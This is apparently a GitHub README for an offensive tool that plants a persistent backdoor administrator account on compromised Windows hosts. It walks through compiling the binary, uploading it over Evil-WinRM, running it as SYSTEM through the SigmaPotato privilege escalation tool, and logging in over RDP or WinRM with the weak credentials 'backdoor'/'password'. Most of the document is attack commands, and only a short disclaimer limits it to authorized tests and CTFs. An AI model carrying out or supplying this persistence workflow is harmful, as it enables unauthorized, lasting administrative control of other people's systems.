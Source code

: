 # Backdoor User Creation Tool

A simple, reliable tool for creating backdoor administrator accounts with RDP and WinRM access during penetration tests and CTF competitions.

## Overview

This tool was created to provide a more reliable alternative to SigmaPotato's built-in `--revshell` function, which doesn't always work as expected. Instead, this tool creates a persistent backdoor administrator account that guarantees both WinRM and RDP access to compromised Windows systems.

## Features

- Creates a backdoor user account with a simple, easy-to-remember password
- Adds the user to the Administrators group
- Ensures the user is added to the Remote Desktop Users group
- Adds the user to the Remote Management Users group for WinRM access
- Enables RDP connections on the target system
- Opens the firewall for RDP access
- Configures Terminal Services to start automatically

## Usage with SigmaPotato

1. Compile the backdoor user creation tool:

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

2. Upload the executable to the target system (e.g., to C:\Windows\Temp):

```powershell
*Evil-WinRM* PS C:\> upload adduser.exe C:\Windows\Temp\adduser.exe
```

3. Execute with SigmaPotato to run with SYSTEM privileges:

```powershell
*Evil-WinRM* PS C:\Windows\Temp> ./SigmaPotato.exe "cmd /c C:\Windows\Temp\adduser.exe"
```

4. Verify the backdoor user was created successfully:

```powershell
*Evil-WinRM* PS C:\Windows\Temp> net user backdoor
*Evil-WinRM* PS C:\Windows\Temp> net localgroup "Remote Desktop Users"
```

5. Connect using RDP or WinRM:

```bash
# Connect via RDP
xfreerdp /u:backdoor /p:password /v:target-ip

# Connect via WinRM
evil-winrm -i target-ip -u backdoor -p password
```

## SigmaPotato Integration

This tool is designed to complement [SigmaPotato](https://github.com/tylerdotrar/SigmaPotato), a privilege escalation tool for Windows.

## Warning

This tool is intended for use in authorized penetration tests and CTF competitions only. Use in unauthorized systems is illegal.

## License

MIT
